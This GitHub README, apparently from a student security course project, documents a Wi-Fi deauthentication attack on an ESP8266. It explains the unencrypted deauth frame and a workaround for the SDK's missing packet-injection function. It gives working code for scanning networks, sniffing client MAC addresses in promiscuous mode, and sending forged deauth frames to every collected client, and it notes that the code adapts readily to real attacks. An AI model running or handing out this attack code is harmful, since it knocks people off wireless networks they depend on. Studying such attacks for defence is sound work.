

# Deauth-attack-using-esp8266
Research on Wi-Fi security protocols vulnerabilities 

  This document presents an implementation of a deauthentication (deauth) attack utilizing an ESP8266 NodeMCU microcontroller. The attack was executed on a personal Wi-Fi network, ensuring that no external devices were impacted. 
Nonetheless, the code can be readily modified to perform a genuine deauthentication attack.

  ## Limitations:

  - Frequency Band Restriction: The ESP8266 operates exclusively on the 2.4 GHz Wi-Fi band. Consequently, it is incompatible with most modern Wi-Fi networks, particularly home networks that predominantly utilize the 5 GHz band.
  - Security Protocol Compatibility: This type of attack is feasible only on networks employing WPA2 or earlier security protocols. The WPA3 security protocol incorporates encryption for deauthentication packets, thereby preventing such attacks.
  - Functional Constraints of ESP8266: The ESP8266 microcontroller has significant limitations when performing this specific attack, particularly concerning the wifi_send_pkt_freedom() function. This restriction affects the
microcontroller's capabilities in executing the attack effectively. (A method to circumvent this limitation will be discussed subsequently.)

  ## Additional Information

  This type of attack can be implemented on the 5 GHz bandwidth using more advanced hardware. Most inexpensive microcontrollers with Wi-Fi capabilities operate solely on the 2.4 GHz band. This limitation arises because they are 
primarily designed for Internet of Things (IoT) applications, which do not require the higher power and performance necessary for such attacks. For those interested in conducting attacks on the 5 GHz bandwidth, a Raspberry Pi is 
a viable alternative, as most models are equipped with 5 GHz-compatible Wi-Fi modules.

  The motivation behind building this project stemmed from an interest sparked during a Security Protocol course. The ESP8266 Software Development Kit (SDK) provided by the Arduino Integrated Development Environment (IDE) removes
the primary functionality required for this type of attack, specifically the wifi_send_pkt_freedom() function. The simplest solution to bypass this limitation is to install an older version of the SDK that retains this functionality.
Alternatively, one can utilize the SDK provided by Spacehuhn, for which I will include a reference link. Another method to circumvent this issue is to install the compiler supplied by Espressif, the manufacturer of the ESP8266.

  Regarding security protocols, the deauthentication attack is applicable only to networks using the WPA2 security protocol. WPA3 incorporates encryption for deauthentication packets, rendering this attack ineffective. To target WPA3 
networks, different techniques must be employed. The ESP8266 does not support attacking WPA3; however, the ESP32, which is the successor to the ESP8266, offers such support.

  Despite WPA3 being introduced in 2018, the majority of home routers have yet to adopt it. Based on local Wi-Fi network scans, none of the observed networks utilized WPA3. While I have not conducted scans on other types of networks, 
such as those in cafes or hotels, it is likely that WPA3 adoption in these environments is also limited.

  This type of attack can be categorized as a Denial of Service (DoS) attack. It does not involve stealing credentials or intercepting packets. However, I will elaborate later on how this attack can be leveraged to facilitate 
more sophisticated attacks.

# Concept Explanation

  The primary vulnerability exploited in this type of attack is the deauthentication control flow, which transmits packets that are not encrypted. Consequently, the only two resources required to disrupt access to the network
are the Media Access Control (MAC) address of the router and the MAC address of the device connected to the network.

  ## Acquisition of Necessary Information

  - BSSID Acquisition: The Basic Service Set Identifier (BSSID) can be easily obtained by scanning the local networks. Although some routers may conceal their BSSID or Service Set Identifier (SSID), this method of obscuration is
ineffective as a preventive measure.
  - Device MAC Address Acquisition: The MAC address of a device using the network can be acquired by sniffing the packets transmitted over the network. The MAC header within these packets contains both the device's MAC address and the router's
MAC address (BSSID). Since these addresses are not encrypted, they remain accessible despite attempts to hide the BSSID.

  ## Execution of the Deauthentication Attack
  
  Once the attacker has obtained the two key elements—the router's MAC address (BSSID) and the target device's MAC address—the next step is to send a deauthentication message. The structure of such a message is as follows:
  ```
  0xC0, 0x00,                          // Type, Subtype: 0xC0 for deauthentication (0xA0 for disassociation)
  0x00, 0x00,                          // Duration (handled by SDK)
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,  // Receiver (target device)
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,  // Source (access point)
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,  // BSSID (access point)
  0x00, 0x00,                          // Fragment and Sequence Number
  0x01, 0x00                           // Reason Code (1 = Unspecified Reason)

  ```

  ## Practical Considerations
  
  MAC Address Randomization: Modern smartphones implement MAC address randomization as a security measure to enhance privacy. This feature can complicate the execution of deauthentication attacks on such devices, as the randomized MAC address changes periodically, making it more challenging to maintain a persistent attack.

  #  Practical implementation

  ### Step 1. Implementing wi-fi network scanner (this step is easy to implement)
    if (!scan) {
    Serial.println("Starting Wi-Fi scan...");
    int n = WiFi.scanNetworks();
    int channel;
    if (n == 0) {
      Serial.println("No network found");
    } else {
      Serial.printf("%d networks found:\n", n);
      x = new network[n];
      for (int i = 0; i < n; i++) {
        Serial.printf("%d: %s (Channel: %d, RSSI: %d dBm)\n",
                      i + 1,
                      WiFi.SSID(i).c_str(),
                      WiFi.channel(i),
                      WiFi.RSSI(i));
        if (WiFi.SSID(i) == "bomba-bomba") {
          single_target = i;
          Serial.printf(" BSSID: ");
          printMAC(WiFi.BSSID(i));
        }
        x[i].BSSID = WiFi.BSSID(i);
        x[i].channel = WiFi.channel(i);
        x[i].RSSI = WiFi.RSSI(i);
        initBSSIDSet(x[i].set_dispozitive);
      }
    }
    scan = true;
    ---- rest of code ----
    }
   - type network is a custom structure meant to store information about the individual networks
  
  ### Step 2. Packet Sniffer

  During the development of the deauthentication attack implementation, I encountered challenges in locating the device's MAC address. Upon investigation, it became evident that the provided data structure includes a metadata header containing hardware-specific information. This header is analogous to the Radiotap header used in packet sniffing when operating in monitor mode, a concept I previously encountered while working on a firewall project.

  #### Data Structure and Metadata Header

  - The metadata header embedded within the data structure serves to convey detailed hardware information necessary for accurate packet analysis. Similar to the Radiotap header, it provides essential context that facilitates the interpretation of captured packets. Understanding this structure was crucial for diagnosing why the device MAC address was not readily identifiable in the captured data.

  - Comprehensive information regarding the format of the provided data structure is available in the ESP8266 documentation. This documentation outlines the various components of the data packets, including the metadata header, and explains how to parse and interpret the information contained within them. Familiarity with these specifications was essential for effectively utilizing the packet sniffer.

  - To implement the packet sniffing functionality, I utilized a structure definition sourced from an existing GitHub repository dedicated to packet sniffing with the ESP8266 platform. Specifically, the esp8266_pcap_serial.ino file from the repository [z4ziggy/esp8266_pcap_serial](https://github.com/z4ziggy/esp8266_pcap_serial) provided the necessary struct definitions and parsing logic. This resource proved invaluable in overcoming the initial obstacle of identifying the device MAC address by offering a proven framework for packet capture and analysis.
  ```
typedef struct
{
  signed rssi : 8;   /**< signal intensity of packet */
  unsigned rate : 4; /**< data rate */
  unsigned is_group : 1;
  unsigned : 1;          /**< reserve */
  unsigned sig_mode : 2; /**< 0:is not 11n packet; 1:is 11n packet */
  unsigned legacy_length : 12;
  unsigned damatch0 : 1;
  unsigned damatch1 : 1;
  unsigned bssidmatch0 : 1;
  unsigned bssidmatch1 : 1;
  unsigned mcs : 7;          /**< if is 11n packet, shows the modulation(range from 0 to 76) */
  unsigned cwb : 1;          /**< if is 11n packet, shows if is HT40 packet or not */
  unsigned HT_length : 16;   /**< reserve */
  unsigned smoothing : 1;    /**< reserve */
  unsigned not_sounding : 1; /**< reserve */
  unsigned : 1;              /**< reserve */
  unsigned aggregation : 1;  /**< Aggregation */
  unsigned stbc : 2;         /**< STBC */
  unsigned fec_coding : 1;   /**< Flag is set for 11n packets which are LDPC */
  unsigned sgi : 1;          /**< SGI */
  unsigned rxend_state : 8;
  unsigned ampdu_cnt : 8; /**< ampdu cnt */
  unsigned channel : 4;   /**< which channel this packet in */
  unsigned : 4;           /**< reserve */
  signed noise_floor : 8;
} wifi_pkt_rx_ctrl_t;


typedef struct
{
  wifi_pkt_rx_ctrl_t rx_ctrl; /**< metadata header */
  uint8_t payload[0];         /**< Data or management payload. Length of payload is described by rx_ctrl.sig_len. Type of content determined by packet type argument of callback. */
} wifi_promiscuous_pkt_t;
  ```

 
[for more information](https://mrncciew.com/2014/09/27/cwap-mac-header-frame-control/)

#### Interpreting the Data

  - To sniff packets, the ESP8266 must be configured in promiscuous mode, operate in station mode, and have its channel set to the broadcast channel of the targeted Wi-Fi network. It is important to note that the ESP8266 cannot sniff packets across multiple channels simultaneously, which is a limitation of its hardware.

  - The callback function that manages the packets gets as input the pachet and the length of it.
  - Typically, the traffic between a device and the router includes not only data packets but also management frames such as Beacon frames and Probe Response frames. To accurately identify the relevant packets for the deauthentication attack, I implemented a filtering mechanism that checks whether any of the three MAC addresses in a captured packet differ from the router's BSSID. Upon further consideration, it would have been sufficient to perform this check using only two of the addresses.
  To optimize performance and ensure efficient processing, I limited the number of analyzed packets to 200. This threshold proved sufficient to capture the majority of devices connected to the targeted network.

  ```

void sniffer_function(uint8_t *buf, uint16_t len) {

  const wifi_promiscuous_pkt_t *ppkt = (wifi_promiscuous_pkt_t *)buf;


  const uint8_t *payload = ppkt->payload;
  if (len < 24) return;
  uint8_t beacon_frame[6] = { 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF };
  uint8_t *personal_BSSID = x[single_target].BSSID;

  bool cond1 = memcmp(personal_BSSID, payload + 10, 6);
  bool cond2 = memcmp(personal_BSSID, payload + 4, 6);
  bool cond3 = memcmp(personal_BSSID, payload + 16, 6);

  if (counter < 200 && memcmp(beacon_frame, payload + 4, 6) != 0 && (!cond1 || !cond2 || !cond3)) {

    if (cond1) {
      addBSSID(x[single_target].set_dispozitive, payload + 10);
      if (counter % 20 == 0) Serial.println("cond1");
    } else if (cond2) {
      addBSSID(x[single_target].set_dispozitive, payload + 4);
      if (counter % 20 == 0) Serial.println("cond2");
    }
    counter++;
  } else if (counter == 200) {
    Serial.printf("counter:%d\n", counter);  
    counter++;
    printBSSIDSet(x[single_target].set_dispozitive);
  }
}
  ```

### Step 3. Building and sending the deauth packet

After acquiring the MAC addresses of both the target device and the router, I proceeded to construct the deauthentication (deauth) packet using the previously specified format. This packet is essential for executing the deauthentication attack by disrupting the connection between the target device and the router.

To transmit the constructed deauth packet, the function wifi_send_pkt_freedom() was required. However, as previously mentioned, this function is not supported by any of the SDK versions provided by the Arduino IDE. To overcome this limitation, I utilized an alternative SDK provided by Spacehuhn.
```
void deauth_attack(network retea) {
  uint8_t deauth[26];
  // uint8_t device[6] = { 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF };
  uint8_t first_4bytess[4] = { 0xC0, 0x00, 0x00, 0x00 };
  uint8_t last_4bytes[4] = { 0x00, 0x00, 0x01, 0x00 };
  memcpy(deauth, first_4bytess, 4);
  memcpy(deauth + 22, last_4bytes, 4);

  for (int i = 0; i < retea.set_dispozitive.count; i++) {

    memcpy(deauth + 4, retea.set_dispozitive.bssid[i], 6);
    memcpy(deauth + 10, retea.BSSID, 6);
    memcpy(deauth + 16, retea.BSSID, 6);

    // printPacket(deauth, sizeof(deauth));
    int result = wifi_send_pkt_freedom(deauth, sizeof(deauth), false);
    // if (result == 0) {
    //   Serial.println("Pachet trimis cu succes!");
    // } else {
    //   Serial.printf("Eroare la trimiterea pachetului: %d\n", result);
    // }
  }
}
```


  


